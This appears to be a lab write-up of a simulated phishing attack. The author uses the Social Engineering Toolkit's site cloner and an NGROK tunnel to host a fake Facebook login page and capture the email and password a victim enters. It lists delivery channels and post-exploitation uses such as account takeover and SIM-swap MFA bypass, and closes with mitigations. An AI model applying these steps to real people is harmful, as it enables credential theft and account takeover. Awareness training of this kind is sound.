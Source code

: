 # Credential Harvesting via Phishing Attack – Facebook Clone

---

## 1. Summary

**Objective:**  
Simulate a credential harvesting attack targeting Facebook users by deploying a phishing campaign using the **Social Engineering Toolkit (SET)**. The intent was to demonstrate how attackers can gather valid credentials for potential post-exploitation actions.

**Method:**  
A cloned version of Facebook’s login page was hosted on a Kali Linux virtual machine using SET. The site was made publicly accessible via an NGROK tunnel and delivered to the target to collect login credentials.

---

## 2. Tools and Environment

- **Operating System:** Kali Linux (VM)
- **Tool Used:** Social Engineering Toolkit (SET)
- **Tunnel Service:** NGROK
- **Targeted Service:** Facebook (cloned login interface)

---

## 3. Attack Chain

### 3.1 Launching SET

Executed the following command:


$sudo setoolkit

![image](/imgs/Screenshot%202025-07-01%20221450.png)

Selected the following options:

![image](/imgs/Screenshot%202025-07-01%20221450.png)
1) Social-Engineering Attacks

![image](/imgs/image.png)

2) Website Attack Vectors

![image](/imgs/Screenshot%202025-07-01%20223603.png)

3) Credential Harvester Attack Method

![image](/imgs/Screenshot%202025-07-01%20223941.png)

2) Site Cloner

Now you must to set up the attack. The first choice is the IP adress of receiver(Your IP adress or your server's IP).

In this camping were used NGROK as the server tunel to my virtual machine, but you can use your own IP adress for it.

After set up your server(or IP adress) to receive the data came from the user(the victim) you must to give the URL from the page you want to 

3.2 Cloning the Target
Cloning URL: http://www.facebook.com
![image](/imgs/Screenshot%202025-07-01%20224822.png)

IP Address / NGROK URL: <NGROK_URL>
![image](/imgs/Screenshot%202025-07-01%20224532.png)
Note: HTTPS was avoided to prevent certificate mismatch issues.

Example configuration:


IP address for the POST back: <NGROK_URL>
Website to clone: http://www.facebook.com

SET cloned the target site and hosted it locally via Apache.

## 4 - Delivery Mechanism

The cloned page was shared via the NGROK URL. Delivery can occur through various social engineering methods:

Phishing emails

SMS messages

Fake support calls

⚠️ Disclaimer: Delivery methods were not the focus of this exercise.

## 5 - Execution and Result
5.1 Victim Interaction
When the victim clicked the NGROK link, the Facebook login clone was displayed. Upon entering credentials, the data was captured and shown on the attacker's terminal.

**Captured fields:**

    Email / Phone

    Password

5.2 Captured Output:
Example:
![image](/imgs/Screenshot%202025-07-01%20230301.png)

Or your output will look like this:

    [*] WE GOT A HIT! Printing the output:

    PARAM: email=targetuser@example.com

    PARAM: pass=supersecretpassword123 

--------
Post-Exploitation Potential

 Captured credentials may allow:

**Unauthorized access to Facebook or associated accounts**

**Credential reuse in other platforms**

**Social engineering via phone/email**

**MFA bypass attempts via SIM swap or phishing**

## 7 - Mitigation Recommendations
Enforce HTTPS and HSTS

Enable multi-factor authentication

Educate users on phishing tactics

Use anti-phishing browser extensions

Monitor for cloned or typosquatted domains

## 8 - Conclusion
This phishing exercise successfully demonstrated how an attacker could use SET to clone a legitimate website and capture credentials. Despite its simplicity, the method is effective and reinforces the need for strong security awareness and defensive controls.

Performed by:
Marcelo Lones
Cybersecurity Analyst / Offensive Security Enthusiast

